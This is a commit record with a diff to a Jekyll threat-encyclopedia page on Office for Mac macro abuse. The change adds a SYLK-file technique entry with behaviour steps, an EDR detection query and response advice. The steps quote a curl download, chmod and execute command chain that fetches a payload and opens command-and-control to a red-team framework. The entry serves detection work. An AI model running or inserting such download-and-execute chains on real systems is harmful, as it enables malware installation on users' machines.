

Before and after one commit to iThreatopedia/iThreatopedia.github.io, a Jekyll site: the page built from _iThreatopedia/macOS/Office for Mac.md, in a window 1280 px wide and 1400 px high, scrolled down 880 px. Shown: the whole window, without its empty margins (212-1069 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1491 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
adding sylk file extension abuse ttp

```diff
--- a/_iThreatopedia/macOS/Office for Mac.md
+++ b/_iThreatopedia/macOS/Office for Mac.md
@@ -9,6 +9,7 @@ Full_Path:
   - Path: /Applications/Microsoft Word.app/Contents/MacOS/Microsoft Word
   - Path: /bin/bash
 Resources:
+  - Link: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format
 Commands:
 
   - Name: Macro VBA for Excel, PowerPoint and Word
@@ -18,7 +19,7 @@ Commands:
     Privileges: User
     MitreID: T1059.007
     Behaviors:
-      - Step: When opening a Office for Mac file (Excel, PPT, or Word), launchd creates the /Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel|PowerPoint|Word process as user.
+      - Step: When opening a Office for Mac file (Excel, PPT, or Word), launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel|PowerPoint|Word" process as user.
       - Step: A prompt appears on the GUI asking the user to enable macros.
       - Step: Once a user enables macros, process_name Microsoft Excel|PowerPoint|Word executes multiple bash processes for each command in the macro. Each future bash process is unique.
       - Step: The first command, bash executes curl to download a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data (replace Excel with PowerPoint or Word). The command line is <pre><code>sh -c curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload</pre></code>
@@ -31,4 +32,25 @@ Commands:
       - EDR: (parent_process_image_path = "/Applications/Microsoft Excel.app/*" OR parent_process_image_path = "/Applications/Microsoft PowerPoint.app/*" OR parent_process_image_path = "/Applications/Microsoft Word.app/*") and process_name = "bash" and event_type = "Process Create"
     Respond:
       - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.
+
+  - Name: Excel macro execution via SYLK file extension
+    Description: This query detects any instance of Excel launching the bash process. The SYLK file extension is an ancient extension that can be abused to execute macros. Thankfully, the OS behaviors mimick that of regular macros being executed, so the same query from the "Macro VBA for Excel, PowerPoint and Word" TTP will detect this.
+    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
+    Category: Execution
+    Privileges: User
+    MitreID: T1059.007
+    Behaviors:
+      - Step: When opening a file with the slk extension, launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel" process as user.
+      - Step: A prompt appears on the GUI asking the user to enable macros.
+      - Step: Once a user enables macros, process_name "Microsoft Excel" executes one bash process with the cmdline <pre><code>sh -c /usr/bin/curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload && chmod +x operator-payload && ./operator-payload -name macro-sylk-excel & </pre></code>
+      - Step: The first command, curl, downloads a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data/operator-payload.
+      - Step: The next command, chmod, makes the payload executable.
+      - Step: The next command, operator-payload, is the malicious payload that executes to establish C2 comms with Prelude Operator.
+      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload makes a network connection to Operator.
+    Execute:
+      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Macro SYLK Excel" procedure from the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
+    Detect:
+      - EDR: parent_process_image_path = "/Applications/Microsoft Excel.app/*" and process_name = "bash" and event_type = "Process Create"
+    Respond:
+      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.
 ---
```
